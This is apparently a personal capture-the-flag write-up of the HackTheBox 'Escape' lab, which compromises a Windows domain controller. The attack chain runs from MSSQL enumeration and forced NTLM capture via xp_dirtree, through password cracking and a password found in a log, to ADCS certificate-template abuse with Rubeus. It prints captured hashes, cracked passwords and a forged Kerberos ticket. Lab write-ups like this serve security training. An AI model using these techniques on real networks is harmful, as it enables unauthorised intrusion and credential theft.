##  RUSTSCAN:
`PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-02-27 15:59:46Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-18T21:20:35
| Not valid after:  2023-11-18T21:20:35
| MD5:   869f7f54b2edff74708d1a6ddf34b9bd
| SHA-1: 742ab4522191331767395039db9b3b2e27b6f7fa
|_ssl-date: 2023-02-27T16:01:23+00:00; +7h59m58s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sequel.htb
| Issuer: commonName=sequel-DC-CA/domainComponent=sequel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-18T21:20:35
| Not valid after:  2023-11-18T21:20:35
| MD5:   869f7f54b2edff74708d1a6ddf34b9bd
| SHA-1: 742ab4522191331767395039db9b3b2e27b6f7fa
|_ssl-date: 2023-02-27T16:01:22+00:00; +7h59m57s from scanner time.
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-02-27T03:09:50
| Not valid after:  2053-02-27T03:09:50
| MD5:   7615c2b290ddde3286cfbb1727a51fce
| SHA-1: 64ea7622b81f5ad40c4fe620366d954968f33e3e
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-02-27T16:01:23+00:00; +7h59m58s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49681/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49706/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
59722/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=2/27%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=63FC6355%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10A%TI=I%II=I%SS=S%TS=U)
OPS(O1=M53CNW8NNS%O2=M53CNW8NNS%O3=M53CNW8%O4=M53CNW8NNS%O5=M53CNW8NNS%O6=M53CNNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M53CNW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 7h59m57s, deviation: 0s, median: 7h59m57s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 31530/tcp): CLEAN (Timeout)
|   Check 2 (port 57993/tcp): CLEAN (Timeout)
|   Check 3 (port 35632/udp): CLEAN (Timeout)
|   Check 4 (port 32611/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2023-02-27T16:00:42
|_  start_date: N/A`
* * *
## DNS:
We found the real FQDN and the new is sequel.htb:


So let's add it to our host file and move forward with enumeration.
* * *
## KERBEROS:
I'm not sure this is the way to go but I will run a Kerberos bruteforce scan in Metasploit to see if we can find some usernames and check if eventually they don't need preath:
`msf6 auxiliary(gather/kerberos_enumusers) > run
[*] Using domain: SEQUEL.HTB - dc.sequel.htb:88     ...
[+] 10.129.25.186 - User: "guest" is present
[+] 10.129.25.186 - User: "administrator" is present`
* * *
## SMB:
So far an enumeration with Enum4linux-ng didn't gave us anything without a proper username or password:


Can we see if we can list Samba shares anonymously?


We can see a "Public" share but can we really surf it?


Yes and we have a PDF mentioning about SQL server. I guess SQL is our way in??


From the PDF we can find several users like:
- Tom?
- Ryan?
- brandon.brown@sequel.htb

And a guest user with SQL Auth:


With this i would like to check if Brandon have don't require Preauth(AS-REP roasting) but it isn't working for him:


We can't do a Kerberoast since we don't have neither Password nor Hash of Brandon's account so we need to move forward to SQL.
* * *
## MSSQL:
Since we are not on windows  we can use DBeaver to connect to  MSSQL istance and check what can we grab from the SQL server...
We can start by trying to enumerate the SQL server with Metaploit:
`[*] Running module against 10.129.25.186

[*] 10.129.25.186:1433 - Running MS SQL Server Enumeration...
[*] 10.129.25.186:1433 - Version:
[*]     Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
[*]             Sep 24 2019 13:48:23
[*]             Copyright (C) 2019 Microsoft Corporation
[*]             Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
[*] 10.129.25.186:1433 - Configuration Parameters:
[*] 10.129.25.186:1433 -        C2 Audit Mode is Not Enabled
[*] 10.129.25.186:1433 -        xp_cmdshell is Not Enabled
[*] 10.129.25.186:1433 -        remote access is Enabled
[*] 10.129.25.186:1433 -        allow updates is Not Enabled
[*] 10.129.25.186:1433 -        Database Mail XPs is Not Enabled
[*] 10.129.25.186:1433 -        Ole Automation Procedures are Not Enabled
[*] 10.129.25.186:1433 - Databases on the server:
[*] 10.129.25.186:1433 -        Database name:master
[*] 10.129.25.186:1433 -        Database Files for master:
[*] 10.129.25.186:1433 -                C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\master.mdf
[*] 10.129.25.186:1433 -                C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\mastlog.ldf
[*] 10.129.25.186:1433 -        Database name:tempdb
[*] 10.129.25.186:1433 -        Database Files for tempdb:
[*] 10.129.25.186:1433 -                C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\tempdb.mdf
[*] 10.129.25.186:1433 -                C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\templog.ldf
[*] 10.129.25.186:1433 -        Database name:model
[*] 10.129.25.186:1433 -        Database Files for model:
[*] 10.129.25.186:1433 -        Database name:msdb
[*] 10.129.25.186:1433 -        Database Files for msdb:
[*] 10.129.25.186:1433 -                C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\MSDBData.mdf
[*] 10.129.25.186:1433 -                C:\Program Files\Microsoft SQL Server\MSSQL15.SQLMOCK\MSSQL\DATA\MSDBLog.ldf
[*] 10.129.25.186:1433 - System Logins on this Server:
[*] 10.129.25.186:1433 -        sa
[*] 10.129.25.186:1433 -        PublicUser
[*] 10.129.25.186:1433 - Disabled Accounts:
[*] 10.129.25.186:1433 -        No Disabled Logins Found
[*] 10.129.25.186:1433 - No Accounts Policy is set for:
[*] 10.129.25.186:1433 -        All System Accounts have the Windows Account Policy Applied to them.
[*] 10.129.25.186:1433 - Password Expiration is not checked for:
[*] 10.129.25.186:1433 -        sa
[*] 10.129.25.186:1433 -        PublicUser
[*] 10.129.25.186:1433 - System Admin Logins on this Server:
[*] 10.129.25.186:1433 -        sa
[*] 10.129.25.186:1433 - Windows Logins on this Server:
[*] 10.129.25.186:1433 -        No Windows logins found!
[*] 10.129.25.186:1433 - Windows Groups that can logins on this Server:
[*] 10.129.25.186:1433 -        No Windows Groups where found with permission to login to system.
[*] 10.129.25.186:1433 - Accounts with Username and Password being the same:
[*] 10.129.25.186:1433 -        No Account with its password being the same as its username was found.
[*] 10.129.25.186:1433 - Accounts with empty password:
[*] 10.129.25.186:1433 -        No Accounts with empty passwords where found.
[*] 10.129.25.186:1433 - Stored Procedures with Public Execute Permission found:
[*] 10.129.25.186:1433 -        sp_replsetsyncstatus
[*] 10.129.25.186:1433 -        sp_replcounters
[*] 10.129.25.186:1433 -        sp_replsendtoqueue
[*] 10.129.25.186:1433 -        sp_resyncexecutesql
[*] 10.129.25.186:1433 -        sp_prepexecrpc
[*] 10.129.25.186:1433 -        sp_repltrans
[*] 10.129.25.186:1433 -        sp_xml_preparedocument
[*] 10.129.25.186:1433 -        xp_qv
[*] 10.129.25.186:1433 -        xp_getnetname
[*] 10.129.25.186:1433 -        sp_releaseschemalock
[*] 10.129.25.186:1433 -        sp_refreshview
[*] 10.129.25.186:1433 -        sp_replcmds
[*] 10.129.25.186:1433 -        sp_unprepare
[*] 10.129.25.186:1433 -        sp_resyncprepare
[*] 10.129.25.186:1433 -        sp_createorphan
[*] 10.129.25.186:1433 -        xp_dirtree
[*] 10.129.25.186:1433 -        sp_replwritetovarbin
[*] 10.129.25.186:1433 -        sp_replsetoriginator
[*] 10.129.25.186:1433 -        sp_xml_removedocument
[*] 10.129.25.186:1433 -        sp_repldone
[*] 10.129.25.186:1433 -        sp_reset_connection
[*] 10.129.25.186:1433 -        xp_fileexist
[*] 10.129.25.186:1433 -        xp_fixeddrives
[*] 10.129.25.186:1433 -        sp_getschemalock
[*] 10.129.25.186:1433 -        sp_prepexec
[*] 10.129.25.186:1433 -        xp_revokelogin
[*] 10.129.25.186:1433 -        sp_execute_external_script
[*] 10.129.25.186:1433 -        sp_resyncuniquetable
[*] 10.129.25.186:1433 -        sp_replflush
[*] 10.129.25.186:1433 -        sp_resyncexecute
[*] 10.129.25.186:1433 -        xp_grantlogin
[*] 10.129.25.186:1433 -        sp_droporphans
[*] 10.129.25.186:1433 -        xp_regread
[*] 10.129.25.186:1433 -        sp_getbindtoken
[*] 10.129.25.186:1433 -        sp_replincrementlsn
[*] 10.129.25.186:1433 - Instances found on this server:
[*] 10.129.25.186:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 10.129.25.186:1433 -        xp_regread might be disabled in this system
[*] Auxiliary module execution completed`

That SP "execute_external_script" sounds good but I will continue with SQL reconaissance. We can find all the SQL local users:
`msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > run
[*] Running module against 10.129.25.186

[*] 10.129.25.186:1433 - Attempting to connect to the database server at 10.129.25.186:1433 as PublicUser...
[+] 10.129.25.186:1433 - Connected.
[*] 10.129.25.186:1433 - Checking if PublicUser has the sysadmin role...
[*] 10.129.25.186:1433 - PublicUser is NOT a sysadmin.
[*] 10.129.25.186:1433 - Setup to fuzz 300 SQL Server logins.
[*] 10.129.25.186:1433 - Enumerating logins...
[+] 10.129.25.186:1433 - 36 initial SQL Server logins were found.
[*] 10.129.25.186:1433 - Verifying the SQL Server logins...
[+] 10.129.25.186:1433 - 17 SQL Server logins were verified:
[*] 10.129.25.186:1433 -  - ##MS_AgentSigningCertificate##
[*] 10.129.25.186:1433 -  - ##MS_PolicyEventProcessingLogin##
[*] 10.129.25.186:1433 -  - ##MS_PolicySigningCertificate##
[*] 10.129.25.186:1433 -  - ##MS_PolicyTsqlExecutionLogin##
[*] 10.129.25.186:1433 -  - ##MS_SQLAuthenticatorCertificate##
[*] 10.129.25.186:1433 -  - ##MS_SQLReplicationSigningCertificate##
[*] 10.129.25.186:1433 -  - ##MS_SQLResourceSigningCertificate##
[*] 10.129.25.186:1433 -  - ##MS_SmoExtendedSigningCertificate##
[*] 10.129.25.186:1433 -  - BUILTIN\Users
[*] 10.129.25.186:1433 -  - NT AUTHORITY\SYSTEM
[*] 10.129.25.186:1433 -  - NT SERVICE\SQLTELEMETRY$SQLMOCK
[*] 10.129.25.186:1433 -  - NT SERVICE\SQLWriter
[*] 10.129.25.186:1433 -  - NT SERVICE\Winmgmt
[*] 10.129.25.186:1433 -  - NT Service\MSSQL$SQLMOCK
[*] 10.129.25.186:1433 -  - PublicUser
[*] 10.129.25.186:1433 -  - sa
[*] 10.129.25.186:1433 -  - sequel\Administrator`

And trying to bruteforce Domain accounts gave us a better list of those account we found in the PDF:


Now it doesn't help us since we can't find any AS-RepRoastable accounts anyway:


From here I was lost and then I found this one: https://github.com/jnyryan/expolit-sqlserver-smb
And more specifically this one: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack

Knowing that "xp_treee" was available i launched it pointing to our ip:


That was before listening with responder:


And now we have the hash of the Service Account:
`[SMB] NTLMv2-SSP Client   : 10.129.25.186
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:f57c9e22a2a91837:216F5E9D55E7C934637B0FC7AA624595:010100000000000000BDC1EB974AD90119C3C00B2C83A7DC000000000200080043005A005100550001001E00570049004E002D004E00470036004C0053004B004C0041004D0036004C0004003400570049004E002D004E00470036004C0053004B004C0041004D0036004C002E0043005A00510055002E004C004F00430041004C000300140043005A00510055002E004C004F00430041004C000500140043005A00510055002E004C004F00430041004C000700080000BDC1EB974AD901060004000200000008003000300000000000000000000000003000005877E3EA626D1AA6F9E36B9D4280E6D20EFFE32ADB6F310DAF5493E667328B5E0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100330037000000000000000000
`

And now running it thru the John the ripper we cracked its password:
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# john sql_svc.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
1g 0:00:00:02 DONE (2023-02-27 10:46) 0.3831g/s 4100Kp/s 4100Kc/s 4100KC/s RICANNENA1..RBDesloMEJOR
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
* * *
## FOOTHOLD:
We can try to get a shell via WinRM with the Service account:


And we are in! But user.txt is not in our folders so we have those users:

Ok so we can't switch users: 

And we don't have any specific permission so far:


Surfing manually the C disk, more specifically under the Sql installation path I found a errorlog that seems suspicions:


And ineed in the log Ryan typed the password in the Userfield so we can maybe switch to whis user?

`2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]`

And baam we are in! Now grab and submit our first flag:

* * *
## PRIVESC:
Now we want to do last step, elevate from Ryan to Admin so we can grab last flag. So seems like Ryan's account nor is parr of any special groups nor have any special priviledges assigned on the machine:


So now I think first step would be to upload both Linpeas and Sharphound so we can see what can we grab from system...



So far seems like i can't get anything interesting from Ryan's account from Bloodhound...


So I will try to run Winpeas locally as Ryan and check what can we find?





So far those autologin pasword where missing, but we can see that no AV is present and LSASS protection is not in place which means we should be able to dump the LSASS? Answer: No we don't have priviledge.
So here I had to ask for tips and apparently the solution in into ADCS which i've totally missed and the solution is this: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin
or this : https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc2

So first we need to check if there are any Vulnerable certificate templates:


There is, good! We have enrollment permissions since we are part of Domanin users:

Now we can ask a new Domain Certificate to impersonate as Administrator:


Now we need to save the cert on our machine and convert it from pem->pfx:


Now we can upload the pfx certificate back on the victim and use Rubeus to ask for new TGT as Impersonated Administrator:


Good now we have a kerberos ticket forged(kirbi as base64) and already injected into session:


Now we can copy the b64 encoded ticket.kirbi from Rubeus and decode it back from B64 on our machine so it will look like this:


Then we need to convert it to linux format: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#harvest-tickets-from-windows



We point the kerberos on our machine to the new ticket:


And we should be able to get a shell. Edit: it didn't worked i will try again from my kali machine, I guess something is happening wrong in my WSL istance.

Now I'm trying same path but this time with only Administrator as user and not sequel\Administrator:


And after a new try i made it work:
`*Evil-WinRM* PS C:\temp> ./Rubeus.exe asktgt /user:Administrator /certificate:cert3.pfx /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[*] Using domain controller: fe80::914c:8a49:d8a0:c6bf%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  Administrator
  UserRealm                :  SEQUEL.HTB
  StartTime                :  2/27/2023 8:28:34 PM
  EndTime                  :  2/28/2023 6:28:34 AM
  RenewTill                :  3/6/2023 8:28:34 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  r0PmkOfh6+dMc0VHHN5ejQ==
  ASREP (key)              :  4BEBD2E60821ED454834B13491A02C58

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
*Evil-WinRM* PS C:\temp> 
`

The key was to use /getcredentials flag in rubeus during last step:


Doing so gave us the Administrator hash:


And using it we got our last flag:


OBS: I did everything right today, the only part was to extract the Hash from TGT with /getcredentials. I didn't mage to make it work by exporting the ticket.kirbi from Windows victim, converting to ticket.ccache and then use it with kerberos authentication...

Now I was tinking how the hell they came up with that solution since it wasn't part neither of Winpeas not Bloodhound... And then i thought since AD was on LDAPS(port 636) then a ADCS must be in place and checking the first result from Rustscan it was mentioning ADcs in the subject.
Issuer: commonName=sequel-DC-CA/domainComponent=sequel 

